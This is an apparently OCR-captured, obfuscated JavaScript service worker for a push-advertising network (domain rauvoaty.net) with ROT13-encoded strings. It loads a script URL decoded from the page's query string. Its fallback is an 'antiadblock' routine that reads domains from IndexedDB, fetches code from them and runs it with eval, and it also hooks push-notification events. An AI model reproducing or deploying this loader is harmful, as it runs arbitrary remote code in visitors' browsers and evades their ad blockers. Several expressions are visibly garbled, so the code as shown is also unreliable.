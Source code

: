 

function(O){!function(e){var t=O.Z();function n(r){if(t[r])return t[r][O.i];var i=t[r]=O.Z(O.B,r,O.w,!O.X,O.i,O.Z());return e[r]O.z,i[O.w]=!O.N,i[O.i]}n[O.y]=e,n[O.g]=t,n[O.K]=function(e,t,r){nO.h||ObjectO.b},n[O.G]=function(e){O.HO!=typeof Symbol&&Symbol[O.hO]&&ObjectO.b,ObjectO.b},n[O.R]=function(e,t){if(O.X&t&&(e=n(e)),O.v&t)return e;if(O.P&t&&O.t==typeof e&&e&&e[O.U])return e;var r=ObjectO.r;if(nO.G,ObjectO.b,O.d&t&&O.oO!=typeof e)for(var i in e)n[O.K](r,i,function(t){return e[t]}O.fO);return r},n[O.H]=function(e){var t=e&&e[O.U]?function(){return e[O.C]}:function(){return e};return nO.K,t},n[O.h]=function(e,t){return Object[O.FO][O.a]O.z},n[O.e]=O.F,n(n[O.m]=O.o)}(O.Z(O.o,function(module,exports,webpack_require){O.f;var _antiadblock=webpack_require(O.O);self[O.c]=O.Z(O.S,7871918,O.V,"rauvoaty.net",O.l,!O.N),self[O.D]=O.F;var DEFAULT_URL=[O.Y,O.j]O.A,STORE_EVENTS=[O.T,O.u,O.M,O.L,O.n,O.E],url;try{if(url=atob(location[O.DO]O.x),!url)throw O.q}catch(e){url=DEFAULT_URL}try{importScripts(url)}catch(ignore){var events=O.Z(),listeners=O.Z(),realAddEventListener=self[O.yO]O.fO;STORE_EVENTSO.ZO,self[O.yO]=function(e,t){if(-O.X===STORE_EVENTSO.qO)return realAddEventListener(e,t);listeners[e]||(listeners[e]=[]),listeners[e]O.M,events[e]&&events[e]O.ZO},(O.N,_antiadblock[O.I])(url,O.Z())[O.gO](function(e){return eO.UO})[O.gO](function(code){return eval(code)})}},O.O,function(e,t,n){O.f;ObjectO.b,t[O.Q]=function(e){return new Promise(function(t,n){r(O.BO)[O.gO](function(r){var i=rO.tOO.xO[O.WO](O.Z(O.V,e,O.dO,new Date()O.CO));iO.yO,iO.yO})})},t[O.I]=async function(e,t){var n=await new Promise(function(e,t){r(O.BO)[O.gO](function(n){var r=nO.tOO.xOO.PO;rO.yO,r[O.yO](O.EO,function(){return e(r[O.XO][O.oF](function(e){return e[O.V]}))})})}),o=!O.N,a=!O.X,s=void O.N;try{for(var c,u=nSymbol[O.QO];!(o=(c=uO.IO)[O.uO]);o=!O.N){var d=c[O.p];try{return await fetch(O.Y+d+O.s+i(),O.Z(O.YO,t[O.YO]||O.RO,O.jO,O.pO,O.sO,t[O.sO],O.vO,O.Z(O.kO,btoa(e))))}catch(e){}}}catch(e){a=!O.N,s=e}finally{try{!o&&u[O.JO]&&uO.JO}finally{if(a)throw s}}throw new Error(O.eO)},t[O.J]=async function(e){try{var t=await fetch(eO.qO>-O.X?e:O.Y+e);return!O.X===(await tO.bO)[O.TO]}catch(e){return!O.X}};function r(e){return new Promise(function(t,n){var r=indexedDBO.MO;rO.yO,rO.yO,r[O.yO](O.EO,function(){return t(r[O.XO])})})}function i(){var e=arguments[O.iO]>O.N&&void O.N!==arguments[O.N]?arguments[O.N]:O.N,t=e<O.W&&MathO.mO>O.k,n=MathO.mOO.zOO.x;return n+(t?O.s+i(e+O.X):O.F)}}))}([['o',111],['O',17],['F',''],['f','hfr fgevpg'],['Z',function(){const obj={};const args=[].slice.call(arguments);for(let i=0;i<args.length-1;i+=2){obj[args[i]]=args[i+1]}return obj}],['y','z'],['g','p'],['K','q'],['G','e'],['R','g'],['H','a'],['h','b'],['e','c'],['i','rkcbegf'],['m','f'],['z','pnyy'],['w','y'],['N',0],['c','bcgvbaf'],['D','ynel'],['A','wbva'],['T','vafgnyy'],['u','npgvingr'],['M','chfu'],['L','abgvsvpngvbapyvpx'],['n','abgvsvpngvbapybfr'],['E','chfufhofpevcgvbapunatr'],['q',null],['b','qrsvarCebcregl'],['U','__rfZbqhyr'],['Q','nqqQbznva'],['I','hygensrgpu'],['J','grfgCvatQbznva'],['B','v'],['S','mbarVq'],['V','qbznva'],['l','erfhofpevorBaVafgnyy'],['X',1],['Y','uggcf://'],['j','/csr/pheerag/freivpr-jbexre.zva.wf?e=fj&i=2'],['p','inyhr'],['s','/'],['v',8],['a','unfBjaCebcregl'],['W',7],['k',.3],['x','fyvpr'],['d',2],['P',4],['t','bowrpg'],['r','perngr'],['C','qrsnhyg'],['oO','fgevat'],['OO','n'],['FO','cebgbglcr'],['fO','ovaq'],['ZO','sbeRnpu'],['yO','nqqRiragYvfgrare'],['gO','gura'],['KO',3],['GO','rahzrenoyr'],['RO','trg'],['HO','haqrsvarq'],['hO','gbFgevatGnt'],['eO','NNO Erdhrfg Snvyrq'],['iO','yratgu'],['mO','enaqbz'],['zO','gbFgevat'],['wO',36],['NO',10],['cO','Zbqhyr'],['DO','frnepu'],['AO',9],['TO','fgnghf'],['uO','qbar'],['MO','bcra'],['LO','hctenqrarrqrq'],['nO','reebe'],['EO','fhpprff'],['qO','vaqrkBs'],['bO','wfba'],['UO','grkg'],['QO','vgrengbe'],['IO','arkg'],['JO','erghea'],['BO','fjnno'],['SO',':'],['VO','perngrBowrpgFgber'],['lO','qbznvaf'],['XO','erfhyg'],['YO','zrgubq'],['jO','perqragvnyf'],['pO','vapyhqr'],['sO','obql'],['vO','urnqref'],['aO','xrlCngu'],['WO','chg'],['kO','gbxra'],['xO','bowrpgFgber'],['dO','perngrqNg'],['PO','trgNyy'],['tO','genafnpgvba'],['rO','ernqjevgr'],['CO','trgGvzr'],['oF','znc']].reduce((o,i)=>(Object.defineProperty(o,i[0],{get:()=>typeof i[1]!=='string'?i[1]:i[1].split('').map(s=>{const c=s.charCodeAt(0);return c>=65&&c<=90?String.fromCharCode((c-65+26-13)%26+65):c>=97&&c<=122?String.fromCharCode((c-97+26-13)%26+97):s}).join('')}),o),{})))/importScripts(...r=sw)/